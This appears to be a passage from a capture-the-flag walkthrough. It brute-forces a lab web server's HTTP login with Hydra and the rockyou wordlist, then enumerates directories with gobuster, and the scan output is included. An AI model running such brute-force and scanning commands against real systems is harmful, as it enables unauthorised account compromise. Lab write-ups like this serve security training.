 We find a secret.txt file, let's check it.

![](2.png)

It's a conversation between `joker` and `batman`.

Let's navigate to port 8080.

![](3.png)

We have to authenticate.

### Hydra

Maybe we can use one of the users we found earlier and brute force the password.

```bash
hydra -l joker -P /usr/share/wordlists/rockyou.txt 10.10.119.22 http-get -s 8080
```

![](4.png)

We found the password, let's login.

![](5.png)

Let's run a directory scan using the following command:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.119.22:8080 -U joker -P {password}
```

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.202.24:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               joker
[+] Timeout:                 10s
===============================================================
2022/08/26 05:19:02 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/administrator        (Status: 301) [Size: 327] [--> http://10.10.202.24:8080/administrator/]
/bin                  (Status: 301) [Size: 317] [--> http://10.10.202.24:8080/bin/]          
/cache                (Status: 301) [Size: 319] [--> http://10.10.202.24:8080/cache/]        
/components           (Status: 301) [Size: 324] [--> http://10.10.202.24:8080/components/]   
/images               (Status: 301) [Size: 320] [--> http://10.10.202.24:8080/images/]       
/includes             (Status: 301) [Size: 322] [--> http://10.10.202.24:8080/includes/]     
/index.php            (Status: 200) [Size: 10947]                                            
/language             (Status: 301) [Size: 322] [--> http://10.10.202.24:8080/language/]     
/layouts              (Status: 301) [Size: 321] [--> http://10.10.202.24:8080/layouts/]      
/libraries            (Status: 301) [Size: 323] [--> http://10.10.202.24:8080/libraries/]    
/LICENSE              (Status: 200) [Size: 18092]                                            
/media                (Status: 301) [Size: 319] [--> http://10.10.202.24:8080/media/]        
/modules              (Status: 301) [Size: 321] [--> http://10.10.202.24:8080/modules/]      
/plugins              (Status: 301) [Size: 321] [--> http://10.10.202.24:8080/plugins/]      
/README               (Status: 200) [Size: 4494]                                             
/robots.txt           (Status: 200) [Size: 836]                                              
```